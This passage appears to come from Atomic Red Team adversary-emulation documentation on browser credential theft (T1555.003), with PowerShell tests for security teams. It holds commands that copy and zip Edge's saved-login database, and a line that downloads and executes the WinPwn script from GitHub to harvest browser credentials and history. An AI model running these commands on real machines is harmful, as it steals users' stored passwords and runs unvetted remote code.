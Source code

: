 ```powershell
if (test-path "$env:localappdata/Microsoft/Edge/User Data/Default/Login Data") {copy-item "$env:localappdata/Microsoft/Edge/User Data/Default/Login Data" -destination "$exfil_folder\T1555.003Edge_Login Data"} else {} 
compress-archive -path "$exfil_folder" -destinationpath "$exfil_folder.zip" -force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "$env:temp\T1555.003.zip" -force -erroraction silentlycontinue   
Remove-Item -Path "$env:temp\T1555.003\" -force -recurse -erroraction silentlycontinue
```





<br/>
<br/>

## Atomic Test #11 - WinPwn - BrowserPwn
Collect Browser credentials as well as the history via winpwn browserpwn function of WinPwn.

**Supported Platforms:** Windows


**auto_generated_guid:** 764ea176-fb71-494c-90ea-72e9d85dce76






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
browserpwn -consoleoutput -noninteractive
```

#### Cleanup Commands:
```powershell
rm .\System.Data.SQLite.dll -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #12 - WinPwn - Loot local Credentials - mimi-kittenz
Loot local Credentials - mimi-kittenz technique via function of WinPwn - Extend timeout to 600s

**Supported Platforms:** Windows


**auto_generated_guid:** ec1d0b37-f659-4186-869f-31a554891611

